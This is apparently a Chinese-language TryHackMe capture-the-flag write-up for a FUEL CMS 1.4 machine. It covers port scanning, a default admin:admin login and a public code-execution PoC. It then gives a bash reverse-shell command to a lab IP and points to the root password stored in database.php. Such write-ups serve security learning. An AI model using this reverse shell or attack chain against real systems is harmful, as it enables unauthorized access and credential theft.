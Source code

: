 ![image-20250528154906415](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250528154906415.png)

我们首先根据ip进行端口扫描

![image-20250528155706768](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250528155706768.png)

最开始简单的使用了fscan进行端口扫描。发现只开放了80端口，我是不敢想象的，怀疑端口扫描的不准确，又开始用nmap进行端口探测

推荐使用官方的kali进行扫描：https://tryhackme.com/room/kali

通过nmap的扫描的确发现没有端口

```
┌──(root㉿kali)-[~]
└─# nmap 10.10.96.*** -sS -sV -A -T4 -p-
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

我们看到了robots.txt文件

![image-20250528161821006](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250528161821006.png)

根据dirsearch扫描出的结果，我们去看一下具体的情况

![image-20250528161802536](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250528161802536.png)

我们结合一下收集的信息

```
Apache httpd 2.4.18 ((Ubuntu))
FUEL CMS 1.4
目录：fuel
php
```

我们直接去访问fuel，发现跳转到一个登录页面

准备随便测一下弱口令的，没想到直接进去了......admin：admin

![image-20250528162111668](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250528162111668.png)

随便看了一看，没什么东西，似乎有文件上传的地点，但是似乎要传指定的变量

进而直接上网去找对应的poc

![image-20250528162627369](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250528162627369.png)

看到有很多1.4版本的代码执行，我们直接去试试。

![image-20250528163618885](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250528163618885.png)

修改一下参数，发现成功执行了。

```
bash -c "exec bash -i >& /dev/tcp/10.8.137.162/4444 0>&1"
```

我们使用下面的命令进行反弹shell

![image-20250528164349255](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250528164349255.png)

发现当前是www—data用户

![image-20250528165137605](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250528165137605.png)

我们在一个文件中发现了root密码，使用linpeas也可以发现这个。

/var/www/html/fuel/application/config中的database.php

![image-20250528165500386](https://github.com/h3ckIn/Tryhackme_Wp/blob/main/CTF-Easy/assets/image-20250528165500386.png)

这样我们就可以读取到密码了。
